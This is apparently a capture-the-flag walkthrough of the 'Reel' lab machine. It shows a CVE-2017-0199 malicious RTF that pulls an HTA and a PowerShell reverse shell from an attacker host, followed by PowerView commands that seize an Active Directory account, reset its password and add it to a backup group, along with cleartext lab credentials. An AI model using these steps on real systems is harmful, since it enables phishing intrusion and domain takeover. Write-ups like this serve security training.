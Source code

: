 # reel



## nmap



PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
25/tcp    open  smtp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
593/tcp   open  http-rpc-epmap
49159/tcp open  unknown



## ftp

1.  found 3 files 
2. one of them request for rtf format and it will convert docx and put it in ftp
3. now we need to create a malicious ftp



#### exiftool

![image-20200919164709025](reel.assets/image-20200919164709025.png)

-  found potential user on the box

```
nico@megabank.com
```



## shell

```
CVE-2017-0199
```

1.  we can execute malicious hta file from rtf documents
2. first we attach a malicoious link to the rta we will send

```
python2 cve-2017-0199_toolkit.py -M gen -u http://10.10.14.24:8000/shell.hta -t rtf -w shell.rtf -x 0
```

![image-20200919172234389](reel.assets/image-20200919172234389.png)

3. then we will generate a malicious hta and host it on the server defined, we will use nishang for this

```
Out-HTA.ps1 -PayloadURL http://10.10.14.24:8000/shell.ps1
```

![image-20200919172433540](reel.assets/image-20200919172433540.png)

4. we will host shell.ps1 on our machine and it will be fetched and we will reverse shell as soon we send the mail.

![image-20200919172622374](reel.assets/image-20200919172622374.png)



## PrivEsc

1. on users desktop found cred.xml
2. its a xml file that has stored securestring of user tom
3. we can import this xml file to find credentials of user tom

```
$credential - Import-Cli-Xml -Path c:\users\nico\desktop\cred.xml
$credential.GetNetworkCredential().Password
```

![image-20200919173524885](reel.assets/image-20200919173524885.png)



#### credential

```
HTB\TOM
1ts-mag1c!!!
```

-  now we can ssh into the box since we know ssh is installed



#### BloodHound

![image-20200919174637050](reel.assets/image-20200919174637050.png)

1.  now we analyze it in Blood Hound



#### backup_admins

1. user tom has write owner to cliare
2. claire has permissions to backup_admins group which can be used to read ntds.dit and System hives
3. we will use Powerview to do perform all this as they provide in built functions



```
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
Add-ObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$password = ConvertTo-SecureString 'Passw0rd123!321!' -AsPlainText -Force
Set-DomainUserPassword claire -AccountPassword $password
```

4. we successfully changed password of Claire

```
Claire
Passw0rd123!321!
```

![image-20200919184919185](reel.assets/image-20200919184925857.png)



5. now we need to become part of backup_admins group

```
Add-DomainGroupMember -Identity "Backup_Admins" -Members claire
```

![image-20200919185833950](reel.assets/image-20200919185833950.png)

6. now claire is part of Backup_Admins group
7. now we can read entire filesystem but we still dont have access to root.txt
8. enumerating backup scripts we find admin password

![image-20200919191538291](reel.assets/image-20200919191538291.png)

#### credentials

```
administrator
Cr4ckMeIfYouC4n!
```

![image-20200919191659901](reel.assets/image-20200919191659901.png)